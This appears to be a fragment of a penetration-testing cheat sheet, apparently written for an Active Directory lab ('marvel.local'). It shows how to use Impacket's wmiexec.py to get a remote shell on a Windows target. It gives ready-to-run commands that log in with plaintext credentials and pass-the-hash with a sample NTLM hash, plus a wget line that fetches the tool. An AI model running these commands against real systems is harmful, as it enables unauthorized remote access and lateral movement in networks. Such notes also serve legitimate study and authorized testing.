 **This tool is part of impacket suite.**
```python
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py marvel.local/groot:Password1@$TARGET
```
or
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/wmiexec.py
```
#### Shell with wmi.py
When we have valid credentials, we can simply login to target.
```python
wmiexec.py marvel.local/fcastle:Password1@$TARGET
```
#### Passing the hash
When we have username and hash, we can login to target.
```python
wmiexec.py marvel.local/fcastle@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```
